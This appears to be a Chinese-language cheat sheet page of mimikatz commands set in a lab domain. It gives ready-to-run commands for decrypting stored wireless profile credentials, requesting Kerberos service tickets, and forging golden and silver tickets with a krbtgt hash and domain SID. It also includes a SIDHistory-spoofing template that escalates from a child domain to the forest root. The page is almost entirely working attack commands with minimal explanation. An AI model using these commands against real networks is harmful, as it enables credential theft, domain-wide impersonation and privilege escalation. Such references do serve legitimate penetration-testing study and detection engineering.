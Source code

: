 解密Wwan的证书

```
mimikatz# dpapi::wwan /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles{interface guid}\*.xml" /unprotect
```



# kerberos

## ask

可用于获取服务票证
```
mimikatz # kerberos::ask 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi /target:CIFS/dc.hacklab.local

mimikatz # kerberos::ask /rc4 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi /target:HTTP/dc.hacklab.local
```

## clist

 以MIT/Heimdall ccache格式列出门票
```
mimikatz # kerberos::clist
```

## golden

可以用来伪造金票和银票。它也可用于伪造域间信任密钥。

金票
```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:b5348d0a20a24a67ff544146a09cd292 /user:krbtgt /ticket:ticket.kirbi /groups:500,501,513,512,520,518,519
```

银票
```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:647dac3559c899c5fe4dad7723feb8c5 /user:m3g9tr0n /service:CIFS/dc.hacklab.local /target:dc.hacklab.local
```


**Golden ticket & SIDHistory spoofing**
当森林信任关系是双向的，有可能通过做SIDHistory欺骗，从一个子域升级到父根域。

```
mimikatz #kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name> /ticket:ticket.kirbi /sids:<sid_of_parent_domain>
```
